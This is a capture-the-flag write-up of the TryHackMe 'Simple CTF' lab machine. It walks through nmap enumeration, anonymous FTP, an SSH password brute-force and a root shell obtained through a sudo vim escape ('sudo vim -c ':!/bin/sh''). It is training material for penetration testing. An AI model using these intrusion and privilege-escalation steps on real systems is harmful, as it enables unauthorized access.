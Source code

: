 # THM - Simple CTF

#### Ip: 10.10.2.89
#### Name: Simple CTF
#### Rating: Easy

----------------------------------------------------------------------

![Simple.png](../assets/simple_ctf_assets/Simple.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.89
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:38 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 13.70 seconds
```
Lets enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ sudo nmap -sC -sV -T4 10.10.2.89 -p 21,80,2222
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 13:40 CDT
Nmap scan report for 10.10.2.89
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.61.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.34 seconds

```

Looks like anonymous access to FTP is enabled, so lets check that out:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ftp 10.10.2.89                         
Connected to 10.10.2.89.
220 (vsFTPd 3.0.3)
Name (10.10.2.89:ryan): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -la
229 Entering Extended Passive Mode (|||41102|)
ftp: Can't connect to `10.10.2.89:41102': Connection timed out
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -la
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |********************************************************************************|   166      692.77 KiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.30 KiB/s)
ftp> bye
221 Goodbye.
```

Ok cool, now we have a username Mitch, and know that there are some weak passwords being used.

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Lets check out HTTP. Navigating to the site we find the default Apache "It Works" page. 

![page.png](../assets/simple_ctf_assets/page.png)

Lets kick off some directory fuzzing to try and find something interesting.

![simplecms.png](../assets/simple_ctf_assets/simplecms.png)

Navigating to http://10.10.2.89/simple/ we find a page using CMS Made Simple. If we poke around a bit we can see the version number in the lower left corner:

![version.png](../assets/simple_ctf_assets/version.png)

Turning to Google we can quickly find a publically available exploit for this version.

https://www.exploit-db.com/exploits/46635

Looks like this version is vulnerable to SQL injection which can be used to crack passwords. Lets try it out!

![edb.png](../assets/simple_ctf_assets/edb.png)

### Exploitation

Note: While I believe this was the intended path, the script above was giving me lots of trouble, and took tons of troubleshooting, so in the end I decided to brute force SSH with mitch as a username. I chose to do this because based on the FTP note discovered earlier, I knew the password had to be relatively common, and easily crackable. I'll have to revisit the ExploitDB script and figure out why it wasn't working for me at another time. 

Nice! Hydra was able to discover Mitch's password. 

![hydra.png](../assets/simple_ctf_assets/hydra.png)

Lets use these credentials to login to ssh as user Mitch:

```text
┌──(ryan㉿kali)-[~/THM/Simple_CTF]
└─$ ssh mitch@10.10.2.89 -p 2222      
The authenticity of host '[10.10.2.89]:2222 ([10.10.2.89]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.2.89]:2222' (ED25519) to the list of known hosts.
mitch@10.10.2.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
$ hostname
Machine
$ pwd
/home/mitch
```

From here we can go ahead and grab the user.txt flag:

![user_flag.png](../assets/simple_ctf_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` to see if Mitch can run anything as root we find:

```text
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Nice! Lets head over to https://gtfobins.github.io/ and see if we can find anything on Vim:

![gtfobins.png](../assets/simple_ctf_assets/gtfobins.png)

Looks like smooth sailing, lets go ahead and drop that command in the terminal:

```text
$ sudo vim -c ':!/bin/sh'

# ^[[2;2R^[]11;rgb:0000/0000/0000^G
/bin/sh: 1: ot found
/bin/sh: 1: 2R: not found
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
Lets grab that final root.txt flag:

![root_flag.png](../assets/simple_ctf_assets/root_flag.png)

That's that! Thanks for following along,

-Ryan

------------------------------------------------------------------------------
